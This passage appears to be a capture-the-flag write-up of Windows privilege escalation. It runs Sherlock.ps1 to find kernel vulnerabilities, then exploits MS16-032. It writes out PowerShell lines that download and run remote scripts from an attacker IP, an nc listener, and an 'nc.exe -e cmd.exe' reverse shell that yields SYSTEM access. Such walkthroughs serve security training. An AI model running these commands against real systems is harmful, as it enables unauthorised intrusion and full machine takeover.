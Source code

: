 # Enumeration (2)

We run [`Sherlock.ps1`](https://github.com/rasta-mouse/Sherlock) and see that the machine might be vulnerable to some kernel exploits. 

```
powershell.exe iex (New-Object Net.WebClient).DownloadString('http://10.10.XX.XX/sherlock.ps1'); Find-AllVulns
...

Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable

Title      : Windows Kernel-Mode Drivers EoP
MSBulletin : MS16-034
CVEID      : 2016-0093/94/95/96
Link       : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS1
             6-034?
VulnStatus : Appears Vulnerable

Title      : Win32k Elevation of Privilege
MSBulletin : MS16-135
CVEID      : 2016-7255
Link       : https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/S
             ample-Exploits/MS16-135
VulnStatus : Appears Vulnerable
...
```

# Exploitation (2)

I decided to target `MS16-032` and found a [script](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1) that can exploit this for us.

We first have to start a `nc` listener.

```bash
$ nc -vlnp 1337 
listening on [any] 1337 ...
```

And then run the exploit script that will start a reverse shell connection to us.

```
C:\temp> C:\Windows\sysnative\WindowsPowershell\v1.0\powershell.exe iex (New-Object Net.WebClient).DownloadString('http://10.10.XX.XX/Invoke-MS16032.ps1'); Invoke-MS16032 -Command 'C:\\Users\\Public\\nc.exe -e cmd.exe 10.10.XX.XX 1337' 
     __ __ ___ ___   ___     ___ ___ ___ 
    |  V  |  _|_  | |  _|___|   |_  |_  |
    |     |_  |_| |_| . |___| | |_  |  _|
    |_|_|_|___|_____|___|   |___|___|___|
                                        
                   [by b33f -> @FuzzySec]

[!] Holy handle leak Batman, we have a SYSTEM shell!!
```
